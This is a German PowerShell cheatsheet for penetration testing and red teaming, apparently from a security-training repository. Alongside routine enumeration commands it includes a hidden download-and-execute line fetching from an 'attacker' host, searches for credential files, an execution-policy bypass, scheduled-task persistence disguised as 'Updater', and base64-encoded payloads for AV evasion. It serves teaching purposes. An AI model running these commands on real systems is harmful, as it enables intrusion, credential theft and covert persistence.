 # ⚡ PowerShell Cheatsheet for Cybersecurity & Offensive Ops

## Ziel dieser Datei

Dieses Cheatsheet bietet eine schnelle Referenz für den **Einsatz von PowerShell** in Penetration Tests, Incident Response, Red Teaming und OSINT. Es enthält **sicherheitsrelevante, administrative und offensive Befehle**, gegliedert nach Szenarien.

> Hinweis: PowerShell ist ein äußerst mächtiges Werkzeug – bitte **nur in autorisierten Umgebungen** einsetzen!



## Inhaltsverzeichnis

- [Systeminformationen](#systeminformationen)
- [Benutzer & Gruppen](#benutzer--gruppen)
- [Netzwerk- & Firewallinfos](#netzwerk---firewallinfos)
- [Dateisystem und Suche](#dateisystem-und-suche)
- [Prozesse & Dienste](#prozesse--dienste)
- [PowerShell Execution Policies](#execution-policies--umgehung)
- [Datei-Download & Remote Access](#download--remote-access)
- [PowerShell Recon & Enumeration](#powershell-recon--enum)
- [PowerShell als Angriffsplattform](#powershell-für-angreifer)
- [Persistenz via PowerShell](#persistenz-via-powershell)
- [Antivirus Evasion](#av-evasion-basics)
- [Nützliche Tools](#nützliche-module--projekte)
- [Verknüpfte Dateien im Repository](#verknüpfte-dateien-im-repository)
- [Haftungsausschluss](#haftungsausschluss)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Systeminformationen

```powershell
Get-ComputerInfo
systeminfo
hostname
Get-WmiObject -Class Win32_OperatingSystem
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Benutzer & Gruppen
```powershell
whoami /all
Get-LocalUser
net user
net localgroup administrators
Get-LocalGroupMember -Group "Administrators"
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Netzwerk- & Firewallinfos

```powershell
ipconfig /all
Get-NetIPConfiguration
Get-NetTCPConnection | Where-Object { $_.State -eq "Listen" }
Get-NetFirewallProfile
Get-NetFirewallRule
Test-NetConnection -ComputerName <IP> -Port <Port>
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Dateisystem und Suche

```powershell
Get-ChildItem -Recurse -Filter *.ps1
dir -Recurse -Filter *password*
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Prozesse & Dienste

```powershell
Get-Process
tasklist
Get-Service
Get-WmiObject win32_service | Where { $_.State -eq "Running" }
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Execution Policies & Umgehung

```powershell
Get-ExecutionPolicy
Set-ExecutionPolicy Bypass -Scope Process
powershell.exe -ExecutionPolicy Bypass -File script.ps1
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Download & Remote Access
### Datei herunterladen

```powershell
Invoke-WebRequest "http://ip/script.ps1" -OutFile "script.ps1"
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Remote Shell (reverse)

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command IEX(New-Object Net.WebClient).DownloadString('http://attacker/nc.ps1')
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## PowerShell Recon & Enum

### Passwort-Reste / Credentials

```powershell
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include *pass*,*cred*,*vnc* | Select-String -Pattern "password"
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Benutzerkontext

```powershell
Get-CimInstance Win32_LoggedOnUser
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Scheduled Tasks

```powershell
Get-ScheduledTask | Where-Object {$_.TaskPath -like "*"}
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## PowerShell für Angreifer

| Tool                      | Beschreibung                             |
| ------------------------- | ---------------------------------------- |
| `PowerView.ps1`           | AD-Recon, Trust-Mapping                  |
| `PowerUp.ps1`             | Local Privilege Escalation Checks        |
| `Invoke-Mimikatz`         | Credential Dumping (⚠️ AV blockiert oft)  |
| `SharpHound` (BloodHound) | AD Graph-Enum                            |
| `Empire`                  | PowerShell RAT Framework                 |
| `Powersploit`             | Offensive Module-Sammlung                |

 

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Persistenz via PowerShell
```powershell
# Persistenz per Scheduled Task
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-WindowStyle Hidden -File C:\evil.ps1"
$trigger = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -TaskName "Updater" -Action $action -Trigger $trigger
```

 


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## AV-Evasion Basics (nur zu Lernzwecken!)
```powershell
# Base64-Encoding Payloads
$bytes = [System.Text.Encoding]::Unicode.GetBytes("IEX(New-Object Net.WebClient).DownloadString('http://<ip>/payload.ps1')")
$encoded = [Convert]::ToBase64String($bytes)
powershell -EncodedCommand $encoded
```




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Nützliche Module & Projekte

| Tool / Modul   | Link                                                                                                                                     |
| -------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| PowerSploit    | [https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)                                         |
| Nishang        | [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)                                                         |
| PowerUp        | [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) |
| Empire         | [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)                                                           |
| PowerSharpPack | [https://github.com/S3cur3Th1sSh1t/PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)                                     |




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Verknüpfte Dateien im Repository
- [windows_privilege_escalation.md](/04-os-enumeration/windows_privilege_escalation.md)
- [linux_privilege_escalation.md](/04-os-enumeration/linux_privilege_escalation.md)
- [red_team_tools.md](/05-red-teaming/red_team_tools.md)


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
